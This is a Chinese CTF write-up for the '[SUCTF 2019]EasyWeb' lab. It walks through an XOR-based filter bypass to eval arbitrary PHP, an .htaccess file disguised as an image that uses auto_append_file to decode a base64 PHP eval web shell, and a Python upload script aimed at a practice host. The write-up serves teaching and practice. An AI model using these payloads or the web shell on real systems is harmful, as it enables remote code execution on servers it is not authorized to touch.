 ```yaml
---
title: '[SUCTF 2019]EasyWeb'
date: 2024-06-18 15:45:33
tags: 
      - 题解
      - 文件上传
categories: 刷题笔记
---
```


### [SUCTF 2019]EasyWeb（异或rce，.htaccess文件上传）

我们打开页面，发现好大一串代码，我们进行代码审计

```
<?php
function get_the_flag(){
    // webadmin will remove your upload file every 20 min!!!! 
    $userdir = "upload/tmp_".md5($_SERVER['REMOTE_ADDR']);
    if(!file_exists($userdir)){
    mkdir($userdir);
    }
    if(!empty($_FILES["file"])){
        $tmp_name = $_FILES["file"]["tmp_name"];
        $name = $_FILES["file"]["name"];
        $extension = substr($name, strrpos($name,".")+1);
    if(preg_match("/ph/i",$extension)) die("^_^"); 
        if(mb_strpos(file_get_contents($tmp_name), '<?')!==False) die("^_^");
    if(!exif_imagetype($tmp_name)) die("^_^"); 
        $path= $userdir."/".$name;
        @move_uploaded_file($tmp_name, $path);
        print_r($path);
    }
}

$hhh = @$_GET['_'];

if (!$hhh){
    highlight_file(__FILE__);
}

if(strlen($hhh)>18){
    die('One inch long, one inch strong!');
}

if ( preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', $hhh) )
    die('Try something else!');

$character_type = count_chars($hhh, 3);
if(strlen($character_type)>12) die("Almost there!");

eval($hhh);
?>
```

我们可以发现代码最后要进行命令执行，但对我们的参数内容进行了过滤，所以为无字母数字rce，我们可以用取反、自增、异或来构造我们所需代码，但由于长度进行了限制，我们不能通过取反和自增来进行命令执行，我们只能用异或

<!--more-->

我们构造异或脚本

```
<?php
function finds($string){
	$index = 0;
	$a=[33,35,36,37,40,41,42,43,45,47,58,59,60,62,63,64,92,93,94,123,125,128,129,130,131,132,133,134,135,136,137,138,139,140,141,142,143,144,145,146,147,148,149,150,151,152,153,154,155,156,157,158,159,160,161,162,163,164,165,166,167,168,169,170,171,172,173,174,175,176,177,178,179,180,181,182,183,184,185,186,187,188,189,190,191,192,193,194,195,196,197,198,199,200,201,202,203,204,205,206,207,208,209,210,211,212,213,214,215,216,217,218,219,220,221,222,223,224,225,226,227,228,229,230,231,232,233,234,235,236,237,238,239,240,241,242,243,244,245,246,247,248,249,250,251,252,253,254,255];
	for($i=27;$i<count($a);$i++){
		for($j=27;$j<count($a);$j++){
			$x = $a[$i] ^ $a[$j];
			for($k = 0;$k<strlen($string);$k++){
				if(ord($string[$k]) == $x){
					echo $string[$k]."\n";
					echo '%' . dechex($a[$i]) . '^%' . dechex($a[$j])."\n";
					$index++;
					if($index == strlen($string)){
						return 0;
					}
				}
			}
		}
	}
}
finds("_GET");
?>

```

运行得到，因为这里还有字符种类限制，所以前面的都得一样

![image-20240618162618708](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406181626811.png)

我们得到payload

```
?_=${%86%86%86%86^%d9%c1%c3%d2}{%86}();&%86=phpinfo

```

![image-20240618162739291](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406181627433.png)



我们可以看到phpinfo()页面,php版本为7.2

**非预期解**

flag在phpinfo()里面

![image-20240618170054121](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406181700148.png)

**预期解**

我们再看一下get_the_flag函数

```
function get_the_flag(){
    // webadmin will remove your upload file every 20 min!!!! 
    $userdir = "upload/tmp_".md5($_SERVER['REMOTE_ADDR']);
    if(!file_exists($userdir)){
    mkdir($userdir);
    }
    if(!empty($_FILES["file"])){
        $tmp_name = $_FILES["file"]["tmp_name"];
        $name = $_FILES["file"]["name"];
        $extension = substr($name, strrpos($name,".")+1);
    if(preg_match("/ph/i",$extension)) die("^_^"); 
        if(mb_strpos(file_get_contents($tmp_name), '<?')!==False) die("^_^");
    if(!exif_imagetype($tmp_name)) die("^_^"); 
        $path= $userdir."/".$name;
        @move_uploaded_file($tmp_name, $path);
        print_r($path);
    }
}
```

代码审计可知文件路径会自动打印出来，但过滤了ph后缀，同时文件中不能有<?,而且要传图片。

由于过滤了ph后缀，我们首先要想到传.htaccess或者在有php文件的情况下传user.ini，这题是传.htaccess

然后就是新姿势了，就是怎么让.htaccess文件被判断成图片。直接在文件内容前加上GIF89a是不行的，我们考虑两种新方法

**方法1：**

```
在文件前加
#define width 1337
#define height 1337

```

**方法2：**

```
在.htaccess前添加x00x00x8ax39x8ax39(要在十六进制编辑器中添加，或者使用python的bytes类型)
x00x00x8ax39x8ax39 是wbmp文件的文件头
.htaccess中以0x00开头的同样也是注释符，所以不会影响.htaccess
```

由于文件内容过滤了<?,我们就不能写php代码了，我们可能会想到<script language="php"></script>,但由于该题的php版本太高，这种方法不适用了，我们解锁新知识

```
#define width 1337
#define height 1337 
AddType application/x-httpd-php .ashhh
php_value auto_append_file "php://filter/convert.base64-decode/resource=./123.ashhh

```

这里是利用auto_append_file来包含base64解码的123.ashhh文章，这样往123.ashhh里写base64加密的马，就能绕过<?了

但是还有一个细节需要注意，我们的123.ashhh也需要是个图片，需要在前面加上GIF89a，但是这只有6个字符，需要再随便加上2个base64有的字符，这样解码的时候才能正确解码，而且不会影响到后面的PHP一句话：

```
GIF89a12		
#12是为了补足8个字节，满足base64编码的规则
PD9waHAgZXZhbCgkX1JFUVVFU1RbJ2NtZCddKTs/Pg==
//<?php eval($_REQUEST['cmd']);?>
```

然后我们要上传脚本

```
import requests
import base64

htaccess = b"""
#define width 1337
#define height 1337 
AddType application/x-httpd-php .ahhh
php_value auto_append_file "php://filter/convert.base64-decode/resource=./shell.ahhh"
"""
shell = b"GIF89a12" + base64.b64encode(b"<?php eval($_REQUEST['cmd']);?>")
url = "http://11754899-c423-45d0-8d84-e960fa206bcb.node5.buuoj.cn:81/?_=${%86%86%86%86^%d9%c1%c3%d2}{%86}();&%86=get_the_flag"

files = {'file':('.htaccess',htaccess,'image/jpeg')}
data = {"upload":"Submit"}
response = requests.post(url=url, data=data, files=files)
print(response.text)

files = {'file':('shell.ahhh',shell,'image/jpeg')}
response = requests.post(url=url, data=data, files=files)
print(response.text)

```

得到路径

![image-20240618165755351](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406181657375.png)

我们访问shell.ahhh

![image-20240618190810063](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406181908176.png)

上传成功，我们打开蚁剑进行连接

![image-20240618190903048](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406181909107.png)

连接成功，在根目录找到flag

![image-20240618190956410](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406181909461.png)
